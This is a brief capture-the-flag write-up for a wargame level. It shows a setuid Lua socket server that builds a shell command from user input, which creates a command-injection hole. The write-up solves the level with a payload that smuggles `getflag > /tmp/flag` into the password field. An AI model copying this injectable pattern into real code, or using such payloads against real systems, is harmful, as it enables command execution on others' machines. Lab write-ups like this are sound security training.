 # Level11 writeup

## Info

User level11 has a setuid (flag11) lua `level11.lua` in there root of their home directory.

`level11.lua`

``` lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Attempting to execute `level11.lua` errors out in a failure, port already in use, using nc we can indeed connect to the server. We can decript the hash, giving us the password NotSoEasy, but that will neither give us the flag through the program or is the password for flag11 user.

## Victory

We can simply force the server to execute getflag and store the file somewhere temperarly. Example: `\";getflag > /tmp/flag;\"`